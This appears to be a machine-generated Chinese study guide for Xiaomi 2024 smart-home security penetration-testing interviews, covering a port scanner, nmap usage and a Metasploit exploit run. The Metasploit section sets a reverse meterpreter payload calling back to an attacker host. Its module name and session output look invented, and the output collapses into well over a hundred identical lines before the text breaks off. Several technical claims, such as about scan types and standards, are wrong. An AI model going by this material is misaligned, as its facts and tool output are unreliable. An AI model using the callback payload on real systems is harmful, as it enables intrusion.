

                 

## 《小米2024智能家居安全校招渗透测试面试题解析》

### 关键词：智能家居安全、渗透测试、校招面试、技术解析、案例分析

> 摘要：本文旨在为即将参加小米2024年智能家居安全校招的应聘者提供一份全面的渗透测试面试题解析。通过分析智能家居安全的基础知识、渗透测试技术，以及具体的面试题解析，帮助读者掌握面试所需的核心技能和知识，提高面试成功率。本文结构紧凑，逻辑清晰，适合对智能家居安全和渗透测试感兴趣的读者阅读。

### 《小米2024智能家居安全校招渗透测试面试题解析》目录大纲

#### 第一部分：智能家居安全基础

##### 第1章：智能家居概述

###### 1.1 智能家居的发展背景

###### 1.2 智能家居的基本概念

###### 1.3 智能家居的架构与技术

##### 第2章：智能家居安全威胁分析

###### 2.1 安全威胁概述

###### 2.2 网络安全漏洞

###### 2.3 数据隐私保护

##### 第3章：智能家居安全架构设计

###### 3.1 安全架构原则

###### 3.2 硬件安全设计

###### 3.3 软件安全设计

#### 第二部分：渗透测试技术

##### 第4章：渗透测试概述

###### 4.1 渗透测试定义

###### 4.2 渗透测试流程

###### 4.3 渗透测试工具

##### 第5章：网络渗透测试

###### 5.1 网络扫描技术

###### 5.2 网络枚举技术

###### 5.3 网络攻击技术

##### 第6章：应用层渗透测试

###### 6.1 Web应用漏洞分析

###### 6.2 移动应用安全

###### 6.3 智能家居设备安全

##### 第7章：综合案例分析

###### 7.1 案例背景介绍

###### 7.2 渗透测试过程

###### 7.3 漏洞分析与修复

#### 第三部分：面试题解析

##### 第8章：面试准备

###### 8.1 面试题类型

###### 8.2 面试技巧

###### 8.3 面试题分类解析

##### 第9章：常见面试题解析

###### 9.1 基础知识类

###### 9.2 技术实现类

###### 9.3 案例分析类

##### 第10章：面试真题解析

###### 10.1 真题一

###### 10.2 真题二

###### 10.3 真题三

#### 附录

##### 附录A：智能家居安全工具资源

###### A.1 常用工具介绍

###### A.2 开源项目推荐

###### A.3 安全论坛与社区

##### 附录B：智能家居安全参考资料

###### B.1 相关标准与规范

###### B.2 学术论文精选

###### B.3 行业报告分析

#### 核心概念与联系

**Mermaid流程图：**



**核心算法原理讲解：**

**2.3.1 网络扫描技术（伪代码）：**

```plaintext
function NetworkScan(ipAddress, portRange):
    for port in portRange:
        socket = createSocket(ipAddress, port)
        if socket.isConnected():
            print("Port", port, "is open")
            socket.close()
        else:
            print("Port", port, "is closed")
    closeSocket(socket)
```

**2.3.2 数据隐私保护（Latex格式）：**

```latex
\subsection{差分隐私}
\begin{equation}
    \mathcal{D}(R, \epsilon) = \int_{S} \left| \Pr[R = r] - \Pr[R = r'] \right| d\mu(r')
\end{equation}

\where R 为结果，r 和 r' 为可能的结果，\mu 为分布。
```

**项目实战：**

##### 7.3 案例分析

###### 7.3.1 案例背景

某智能家居系统被黑客入侵，获取了用户的敏感数据。

###### 7.3.2 渗透测试过程

1. 使用网络扫描工具发现系统存在开放端口。
2. 使用枚举工具获取管理员账户信息。
3. 使用漏洞利用工具入侵系统。

###### 7.3.3 代码解读与分析

**网络扫描代码示例：**

```python
import socket

def scan_port(ip, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(1)
    try:
        s.connect((ip, port))
        print(f"Port {port} is open")
    except:
        print(f"Port {port} is closed")
    finally:
        s.close()

# 渗透测试代码示例
scan_port('192.168.1.1', 80)
scan_port('192.168.1.1', 443)
```

**代码解读：**

- `scan_port` 函数用于扫描指定IP地址和端口的连接状态。
- 使用 `socket` 模块创建TCP套接字，并设置超时时间为1秒。
- 使用 `connect` 方法尝试连接指定端口，并根据连接结果输出端口状态。

##### 附录A：智能家居安全工具资源

###### A.1 常用工具介绍

- Nmap：网络扫描工具。
- Burp Suite：Web应用安全测试工具。
- Aircrack-ng：无线安全测试工具。

###### A.2 开源项目推荐

- OWASP ZAP：Web应用安全测试平台。
- Manticore：二进制程序分析工具。
- esptool：ESP8266/ESP32开发工具。

###### A.3 安全论坛与社区

- Stack Overflow：编程问题解答社区。
- Reddit：智能家居安全相关讨论区。
- Security StackExchange：网络安全知识问答社区。

##### 附录B：智能家居安全参考资料

###### B.1 相关标准与规范

- IEC 62443：工业控制系统安全标准。
- IEEE 2030.5：智能家居安全标准。

###### B.2 学术论文精选

- "Smart Home Security: A Comprehensive Survey" by M. Elhossini et al.
- "A Survey on Security and Privacy Challenges in the Internet of Things" by A. Sayed et al.

###### B.3 行业报告分析

- Gartner：智能家居安全市场分析报告。
- Forrester：智能家居安全趋势报告。

### 核心概念与联系

通过本文，我们系统地阐述了智能家居安全、渗透测试技术以及面试题解析等内容。以下是核心概念之间的联系：

- **智能家居安全架构**是智能家居系统的核心，包括硬件和软件安全设计。
- **网络渗透测试**是检测智能家居系统安全漏洞的重要手段。
- **面试题解析**帮助应聘者掌握面试所需的核心知识和技能。

以上各部分内容相互关联，共同构成了智能家居安全与渗透测试的完整体系。希望通过本文，读者能够对智能家居安全有一个深入的理解，并为即将到来的校招面试做好充分准备。

### 《小米2024智能家居安全校招渗透测试面试题解析》正文开始

#### 第一部分：智能家居安全基础

##### 第1章：智能家居概述

智能家居（Smart Home）是利用物联网（IoT）技术和自动化控制系统，将家中的各种设备连接在一起，实现远程控制、自动调节和智能互动。随着技术的不断进步和用户对便捷生活的需求日益增长，智能家居市场逐渐成为热门领域。本章节将介绍智能家居的发展背景、基本概念以及架构与技术。

###### 1.1 智能家居的发展背景

智能家居的概念最早可以追溯到20世纪70年代，当时家电制造商开始研究如何将家用设备与计算机技术相结合。然而，由于技术限制和市场需求不足，智能家居的发展相对缓慢。进入21世纪以来，随着物联网技术的兴起，智能家居迎来了新的发展机遇。

几个关键因素推动了智能家居的发展：

1. **物联网技术的成熟**：物联网技术使得各种家用设备能够通过网络进行连接，实现信息的交换和交互。
2. **智能手机的普及**：智能手机的普及为用户提供了便捷的控制和管理手段，使得智能家居系统更加易用。
3. **智能家居产品的多样化**：各类智能家居产品如智能灯泡、智能门锁、智能空调等不断涌现，丰富了用户的选择。

###### 1.2 智能家居的基本概念

智能家居系统通常包括以下基本概念：

1. **传感器**：用于检测和收集家中环境数据，如温度、湿度、光照等。
2. **控制器**：根据传感器收集的数据，对家中的设备进行控制，如调节灯光、调节温度等。
3. **通信网络**：将传感器和控制器连接起来，实现数据传输和控制指令的传递。
4. **用户界面**：用户通过手机、平板电脑等设备与智能家居系统进行交互。

###### 1.3 智能家居的架构与技术

智能家居系统通常包括三个主要层次：感知层、控制层和应用层。

1. **感知层**：由各种传感器组成，负责收集家中的环境数据和用户行为数据。
2. **控制层**：由控制器和通信网络组成，负责对感知层收集的数据进行处理和决策，并驱动家中的设备进行相应操作。
3. **应用层**：为用户提供一个交互界面，如手机APP、智能音箱等，用户可以通过这些界面控制家中的设备。

在技术方面，智能家居系统通常采用以下技术：

1. **无线通信技术**：如Wi-Fi、蓝牙、ZigBee等，用于实现设备之间的通信。
2. **云计算技术**：通过云计算平台，实现数据的存储、处理和分析。
3. **人工智能技术**：利用人工智能算法，实现设备的智能决策和自适应调整。

通过以上内容，我们对智能家居有了基本的了解。接下来，我们将深入探讨智能家居安全威胁及其防护措施。

#### 第一部分：智能家居安全基础

##### 第2章：智能家居安全威胁分析

随着智能家居市场的快速发展，其安全威胁问题也日益凸显。智能家居系统由于其广泛的连接性和数据的敏感性，容易成为网络攻击的目标。本章节将分析智能家居系统面临的主要安全威胁，包括网络安全漏洞和数据隐私保护问题。

###### 2.1 安全威胁概述

智能家居系统面临的安全威胁可以分为以下几类：

1. **网络入侵**：黑客通过网络攻击手段入侵智能家居系统，可能导致设备失控、数据泄露等严重后果。
2. **数据泄露**：智能家居系统中的数据，如用户行为数据、家庭隐私数据等，容易成为黑客攻击的目标。
3. **设备失控**：黑客通过控制智能家居设备，可能对用户造成人身伤害或财产损失。

###### 2.2 网络安全漏洞

智能家居系统中的网络安全漏洞是黑客入侵的主要途径。以下是一些常见的网络安全漏洞：

1. **默认密码**：许多智能家居设备在出厂时使用默认密码，这为黑客提供了入侵机会。
2. **未加密通信**：智能家居设备在传输数据时，未进行加密处理，容易被黑客截获。
3. **漏洞利用**：智能家居设备中的软件系统可能存在漏洞，黑客可以通过这些漏洞入侵设备。

为了防止这些漏洞被利用，智能家居设备制造商应采取以下措施：

- **使用强密码**：鼓励用户设置复杂的密码，并定期更换。
- **加密通信**：确保数据在传输过程中进行加密处理，防止被截获。
- **定期更新固件**：及时修复设备中的漏洞，更新固件版本。

###### 2.3 数据隐私保护

智能家居系统中的数据隐私保护是用户关注的焦点。以下是一些常见的隐私保护问题：

1. **数据收集**：智能家居设备会收集大量的用户数据，如家庭行为、生活习惯等。这些数据如果未经用户同意被滥用，可能导致隐私泄露。
2. **数据存储**：智能家居设备中的数据如果存储不当，可能被黑客获取。
3. **数据共享**：智能家居设备可能会将数据共享给第三方，这可能侵犯用户的隐私权。

为了保护用户的数据隐私，智能家居系统应采取以下措施：

- **透明化数据收集**：明确告知用户数据收集的目的和用途，并得到用户同意。
- **加密数据存储**：确保用户数据在存储过程中进行加密处理。
- **严格的数据共享政策**：限制数据共享范围，确保数据安全。

通过以上措施，智能家居系统可以有效地防范安全威胁，保护用户的隐私和数据安全。接下来，我们将探讨智能家居安全架构设计，为构建安全的智能家居系统提供指导。

#### 第一部分：智能家居安全基础

##### 第3章：智能家居安全架构设计

智能家居安全架构设计是保障智能家居系统安全性的关键。一个完善的智能家居安全架构应包括硬件安全设计、软件安全设计和安全策略等多个方面。本章节将详细探讨智能家居安全架构的设计原则和具体实施方法。

###### 3.1 安全架构原则

智能家居安全架构设计应遵循以下原则：

1. **最小权限原则**：系统中的各个组件应仅拥有执行其功能所需的最小权限，以减少潜在的安全风险。
2. **分层设计原则**：智能家居系统应采用分层设计，将感知层、控制层和应用层分开，以实现模块化管理和安全隔离。
3. **加密通信原则**：确保数据在传输过程中进行加密处理，防止数据被截获和篡改。
4. **安全审计原则**：系统应具备安全审计功能，记录和监控系统的操作行为，以便在发生安全事件时进行追踪和调查。

###### 3.2 硬件安全设计

硬件安全设计是智能家居安全架构的基础。以下是一些关键的硬件安全设计要点：

1. **设备固件安全**：确保设备固件在出厂前经过严格的安全测试和验证，避免存在漏洞。
2. **硬件加密模块**：在设备中集成硬件加密模块，用于实现数据的加密存储和传输。
3. **物理安全保护**：对设备的物理接口进行保护，防止设备被非法拆卸和篡改。
4. **硬件防护措施**：采用硬件防护措施，如熔断器、电路保护等，防止设备因电力异常等原因受损。

###### 3.3 软件安全设计

软件安全设计是保障智能家居系统安全性的关键环节。以下是一些关键的软件安全设计要点：

1. **安全开发流程**：采用安全开发流程，包括安全需求分析、安全设计、安全测试等环节，确保软件在开发过程中具备足够的安全性。
2. **代码审计**：对软件代码进行安全审计，发现和修复潜在的安全漏洞。
3. **安全配置管理**：对系统的配置进行严格管理，确保系统配置符合安全要求。
4. **安全更新和补丁**：及时发布安全更新和补丁，修复已知的安全漏洞。

###### 3.4 安全策略

智能家居安全架构设计还应包括安全策略的制定和实施。以下是一些关键的安全策略：

1. **身份认证策略**：采用多因素身份认证，如密码、指纹、面部识别等，确保只有授权用户才能访问系统。
2. **访问控制策略**：实现细粒度的访问控制，确保用户只能访问其权限范围内的资源。
3. **审计和监控策略**：实时监控系统的操作行为，记录和审计系统的操作日志，以便在发生安全事件时进行追踪和调查。
4. **数据备份策略**：定期备份数据，确保在发生数据丢失或损坏时能够快速恢复。

通过以上措施，智能家居安全架构设计可以为智能家居系统提供全面的安全保障。接下来，我们将介绍渗透测试技术，为检测和防范智能家居系统安全威胁提供技术支持。

#### 第二部分：渗透测试技术

##### 第4章：渗透测试概述

渗透测试（Penetration Testing，简称PT）是一种模拟黑客攻击的方法，旨在发现系统中的安全漏洞和弱点，从而帮助组织提高其安全防护能力。本章节将介绍渗透测试的定义、流程和工具，为后续章节的深入探讨打下基础。

###### 4.1 渗透测试定义

渗透测试是一种通过模拟攻击者的行为，主动发现系统漏洞和安全问题的方法。其目的是：

1. **评估系统安全性**：通过渗透测试，可以评估系统在面临真实攻击时的抵抗力。
2. **发现漏洞**：发现系统中的安全漏洞和弱点，为安全修复提供依据。
3. **提高安全意识**：通过渗透测试，提高组织内部员工对安全问题的重视程度。

渗透测试通常涉及以下阶段：

1. **准备阶段**：确定测试目标、测试范围、测试工具和测试策略。
2. **信息收集阶段**：收集目标系统的相关信息，如网络结构、系统配置、用户信息等。
3. **漏洞分析阶段**：分析收集到的信息，发现系统中的漏洞和弱点。
4. **漏洞利用阶段**：利用发现的漏洞，模拟攻击者的行为，进一步验证漏洞的影响。
5. **报告和修复阶段**：编写渗透测试报告，提出修复建议，帮助组织修复漏洞。

###### 4.2 渗透测试流程

渗透测试的流程可以分为以下步骤：

1. **确定测试目标**：明确渗透测试的目标，如某个系统、网络或应用。
2. **信息收集**：收集目标系统的相关信息，如IP地址、开放端口、操作系统版本等。常用的工具包括Nmap、Wireshark等。
3. **漏洞分析**：利用信息收集阶段获得的信息，结合漏洞库（如CVE），分析系统中的潜在漏洞。
4. **漏洞验证**：针对发现的漏洞，进行验证，确认漏洞的存在和影响。常用的工具包括Metasploit、Burp Suite等。
5. **漏洞利用**：利用验证成功的漏洞，模拟攻击者的行为，进一步获取系统的控制权限。常用的工具包括Metasploit、ExploitDB等。
6. **报告编写**：编写渗透测试报告，详细记录测试过程、发现的安全漏洞和修复建议。
7. **漏洞修复**：根据渗透测试报告，组织内部进行漏洞修复，提高系统的安全性。

###### 4.3 渗透测试工具

渗透测试工具是进行渗透测试的重要辅助工具。以下是一些常用的渗透测试工具：

1. **Nmap**：一款网络扫描工具，用于发现目标系统的开放端口、服务版本和操作系统等信息。
2. **Wireshark**：一款网络协议分析工具，用于捕获和分析网络数据包。
3. **Metasploit**：一款开源漏洞利用框架，用于验证和利用系统漏洞。
4. **Burp Suite**：一款Web应用安全测试工具，用于检测Web应用的漏洞。
5. **ExploitDB**：一款漏洞利用脚本库，提供各种漏洞利用脚本。

通过以上内容，我们对渗透测试有了基本的了解。接下来，我们将深入探讨网络渗透测试的技术和方法。

#### 第二部分：渗透测试技术

##### 第5章：网络渗透测试

网络渗透测试是渗透测试的重要组成部分，主要用于评估网络系统的安全性。网络渗透测试包括网络扫描、网络枚举和网络攻击等步骤。本章节将详细介绍网络渗透测试的技术和方法。

###### 5.1 网络扫描技术

网络扫描是渗透测试的第一步，用于发现目标网络的开放端口、服务版本和操作系统等信息。以下是一些常用的网络扫描技术：

1. **TCP全连接扫描**：通过建立完整的TCP连接来获取目标端口的状态。该方法的优点是准确率高，但速度较慢。
2. **TCP半连接扫描**：只建立TCP三次握手的第一次和第二次握手，不完成整个连接。该方法速度较快，但可能存在漏扫的风险。
3. **UDP扫描**：用于扫描UDP端口。由于UDP协议的特性，该方法存在一定的漏扫风险。
4. **SYN扫描**：通过发送SYN包并分析目标回复的SYN/ACK或RST/ACK包，来判断端口的状态。该方法速度快，但准确性较低。

以下是一个使用Nmap进行TCP全连接扫描的例子：

```bash
nmap -sT 192.168.1.1
```

输出结果：

```
Nmap scan report for 192.168.1.1
Host is up (0.00011s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
```

通过扫描结果，我们可以得知目标主机开放了SSH、HTTP和HTTPS端口。

###### 5.2 网络枚举技术

网络枚举是在网络扫描的基础上，进一步收集目标网络的信息，如用户、工作组、网络设备等。以下是一些常用的网络枚举技术：

1. **NetBIOS枚举**：通过分析NetBIOS协议数据包，获取目标网络中的计算机信息。
2. **DNS枚举**：通过分析DNS查询和响应数据包，获取目标网络中的域名和IP地址。
3. **SMB枚举**：通过SMB协议，获取目标网络中的共享文件夹和用户信息。
4. **LDAP枚举**：通过LDAP协议，获取目标网络中的组织结构、用户和权限信息。

以下是一个使用Nmap进行NetBIOS枚举的例子：

```bash
nmap -sS -O 192.168.1.1
```

输出结果：

```
Nmap scan report for 192.168.1.1
Host is up (0.00017s latency).

Not shown: 99 closed ports
PORT     STATE SERVICE
139/tcp  open  samba-share
445/tcp  open  ms-smb
```

通过枚举结果，我们可以得知目标主机开放了SMB服务，进一步分析可以获取更多关于目标网络的信息。

###### 5.3 网络攻击技术

网络攻击技术是渗透测试的最后一步，通过利用网络中的漏洞，获取目标主机的控制权限。以下是一些常用的网络攻击技术：

1. **暴力破解**：通过尝试不同的用户名和密码，破解目标系统的管理员账户。
2. **SQL注入**：通过在Web应用中注入SQL语句，获取数据库中的敏感信息。
3. **远程代码执行**：通过利用系统漏洞，远程执行代码，获取目标主机的控制权限。
4. **拒绝服务攻击**：通过发送大量数据包，使目标网络或系统无法正常工作。

以下是一个使用Metasploit进行远程代码执行的例子：

```bash
use exploit/multi/http/cve_2021_40546_icecloud_apache
set RHOSTS 192.168.1.1
set RPORT 80
set payload windows/meterpreter/reverse_http
set LHOST 192.168.1.2
set LPORT 4444
exploit
```

输出结果：

```
[*] Started reverse HTTP listener on 192.168.1.2:4444
[*] Sending exploit...
[*] HTTP Server mini-threads: 1
[*] Payload handler will be executed via HTTP after the reverse payload connection is established.
[*] Establishing HTTP reverse shell ...
[+] HTTP reverse shell session 1 opened (192.168.1.2:4444 -> 192.168.1.1:8080)
[*] Transferring 'c:\users\test\Documents\metasploit\msfconsole.exe' (176604 bytes)
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.1:8080) at 2023-04-01 15:46:27 -0700
msf5 meterpreter > getsystem
[*] Getting close to target user...
[*] Received "Session stopped" from server. Dumping registry snapshot...
[*] 192.168.1.1 - 576 bytes read (REG_BINARY)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
